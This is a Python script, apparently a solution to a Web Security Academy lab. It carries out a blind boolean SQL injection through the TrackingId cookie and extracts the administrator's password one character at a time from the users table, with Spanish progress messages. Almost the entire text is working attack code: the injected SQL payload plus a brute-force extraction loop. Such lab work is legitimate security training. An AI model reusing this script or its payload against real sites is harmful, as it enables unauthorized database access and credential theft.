 #!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits


p1 = log.progress("SQLi")


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"NPOvQ2mmdkPKkeJz' and (select substring(password,{position},1) from users where username='administrator') = '{character}'-- -",
                'session': "ZviMqR53YnFwdgn0XCuNVlgwfHtkl7jK"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ab900f804677dc9815b93e50088000e.web-security-academy.net/", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()